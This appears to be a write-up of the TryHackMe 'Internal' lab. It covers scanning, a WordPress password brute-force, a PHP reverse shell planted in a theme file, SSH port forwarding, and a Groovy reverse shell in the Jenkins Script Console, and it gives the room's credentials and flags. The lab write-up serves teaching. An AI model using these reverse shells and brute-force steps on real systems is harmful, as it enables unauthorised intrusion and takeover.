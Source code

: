 # Internal

Tryhackme Internal - Linux - Hard

https://tryhackme.com/room/internal

## Nmap
```shell
Nmap scan report for internal.thm (10.10.46.201)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6efaefbef65f98b9597bf78eb9c5621e (RSA)
|   256 ed64ed33e5c93058ba23040d14eb30e9 (ECDSA)
|_  256 b07f7f7b5262622a60d43d36fa89eeff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As the homepage is just default ubuntu page, we have to search other dir, therefore, `gobuster` is the next tool we will use.

```shell
└──╼ $gobuster dir -u internal.thm -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
...
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
```

On going to blog, we found it is wordpress website.

Therefore, next step is to do `wpscan`.

```shell
└──╼ $wpscan --url http://internal.thm/blog/ --passwords /usr/share/wordlists/rockyou.txt --max-threads 100
...
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

We got username and password, so let's login in wordpress.

In theme editor, we will write our shell in `index.php`

![](https://hackmd.io/_uploads/rJmF_ljU2.png)

`<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.8.95.227/4444 0>&1'"); ?>`

We got the reverse shell... Paste this command to get full TTY.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Little enumeration to find `user.txt`
```
www-data@internal:/var/www$ cd /home
cd /home

www-data@internal:/home$ ls
ls
aubreanna

www-data@internal:/home$ cd aubreanna
cd aubreanna
bash: cd: aubreanna: Permission denied

www-data@internal:/home$ find / -name user.txt 2>/dev/null 
find / -name user.txt 2>/dev/null
/usr/share/doc/phpmyadmin/html/_sources/user.txt

www-data@internal:/home$ cat /usr/share/doc/phpmyadmin/html/_sources/user.txt
cat /usr/share/doc/phpmyadmin/html/_sources/user.txt
User Guide
==========

.. toctree::
    :maxdepth: 2

    transformations
    privileges
    other
    import_export

www-data@internal:/home$ find / -name *.txt 2>/dev/null       
find / -name *.txt 2>/dev/null
/opt/wp-save.txt
... other files

www-data@internal:/home$ cat /opt/wp-save.txt
cat /opt/wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

So, we get the password for `aubreanna`. Let's login using ssh.
```shell
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt 
THM{int3rna1_fl4g_1}
```

## Privilege Escalation

Let's check for other file

```shell
aubreanna@internal:~$ sudo -l
[sudo] password for aubreanna: 
Sorry, user aubreanna may not run sudo on internal.
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

So jenkins file is running on `8080` port, and we have to forward that to our local machine.

We have to use port forwarding in ssh, we can achieve using the following command.

`└──╼ $ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm`

On entering password, we will get jenkins login page on `localhost:8080`.


After enumerating password from jenkins login form, we got `admin:spongebob`.

In `Manage Jenkins > Script Console` paste this reverse shell and listen via netcat.

```shell
String host="10.8.95.227";
int port=4444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


As as user, go to `/opt` and we will get root password from there.
```shell
$ cd /opt
$ ls
note.txt
$ cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

Login using this credentials,
```shell
root@internal:~# ls
root.txt  snap
root@internal:~# cat root.txt 
THM{d0ck3r_d3str0y3r}
```

